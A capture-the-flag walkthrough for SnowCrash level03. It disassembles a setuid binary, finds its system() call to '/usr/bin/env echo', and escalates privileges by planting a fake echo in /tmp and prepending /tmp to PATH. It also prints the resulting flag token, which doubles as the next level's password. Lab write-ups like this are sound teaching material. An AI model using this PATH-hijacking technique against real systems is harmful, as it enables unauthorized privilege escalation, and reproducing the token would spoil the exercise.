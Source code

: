 # level03

- We login as user level03.
```
level03@SnowCrash:~$ ls -l
total 12
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
```

```
level03@SnowCrash:~$ ./level03
Exploit me
```


- A binary has been left for us, it belongs to user flag03 and group level03. Additionally, [the setuid and setgid permission bits](https://en.wikipedia.org/wiki/Setuid) are set.
Thus, this binary is executed with the privileges of user flag03 and group level03.
Let's take a closer look at this binary using [GDB](https://en.wikipedia.org/wiki/GNU_Debugger).
```
(gdb) info functions
All defined functions:

File /home/user/level03/level03.c:
int main(int, char **, char **);

Non-debugging symbols:
0x08048340  _init
...
```

```
(gdb) disas main
Dump of assembler code for function main:
   0x080484a4 <+0>:     push   %ebp
   0x080484a5 <+1>:     mov    %esp,%ebp
   0x080484a7 <+3>:     and    $0xfffffff0,%esp
   0x080484aa <+6>:     sub    $0x20,%esp
   0x080484ad <+9>:     call   0x80483a0 <getegid@plt>
   0x080484b2 <+14>:    mov    %eax,0x18(%esp)
   0x080484b6 <+18>:    call   0x8048390 <geteuid@plt>
   0x080484bb <+23>:    mov    %eax,0x1c(%esp)
   0x080484bf <+27>:    mov    0x18(%esp),%eax
   0x080484c3 <+31>:    mov    %eax,0x8(%esp)
   0x080484c7 <+35>:    mov    0x18(%esp),%eax
   0x080484cb <+39>:    mov    %eax,0x4(%esp)
   0x080484cf <+43>:    mov    0x18(%esp),%eax
   0x080484d3 <+47>:    mov    %eax,(%esp)
   0x080484d6 <+50>:    call   0x80483e0 <setresgid@plt>
   0x080484db <+55>:    mov    0x1c(%esp),%eax
   0x080484df <+59>:    mov    %eax,0x8(%esp)
   0x080484e3 <+63>:    mov    0x1c(%esp),%eax
   0x080484e7 <+67>:    mov    %eax,0x4(%esp)
   0x080484eb <+71>:    mov    0x1c(%esp),%eax
   0x080484ef <+75>:    mov    %eax,(%esp)
   0x080484f2 <+78>:    call   0x8048380 <setresuid@plt>
   0x080484f7 <+83>:    movl   $0x80485e0,(%esp)
   0x080484fe <+90>:    call   0x80483b0 <system@plt>
   0x08048503 <+95>:    leave
   0x08048504 <+96>:    ret
End of assembler dump.
```


- We can see that the program makes a call to `<system@plt>` right after moving the address `0x80485e0` on top of the stack.
Let's display the value contained at this address.
```
(gdb) x/s 0x80485e0
0x80485e0:       "/usr/bin/env echo Exploit me"
```


- So, the program calls `system("/usr/bin/env echo Exploit me")`.
In bash, `echo` is a built-in command, but with the preceding `/usr/bin/env`, the program will use the `PATH` environment variable to search for the echo binary.
```
level03@SnowCrash:~$ echo "getflag" > /tmp/echo
```

```
level03@SnowCrash:~$ chmod +x /tmp/echo
```

```
level03@SnowCrash:~$ export PATH=/tmp:$PATH
```

```
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

```
level03@SnowCrash:~$ su level04
Password:qi0maab88jeaj46qoumi7maus
level04@SnowCrash:~$
```
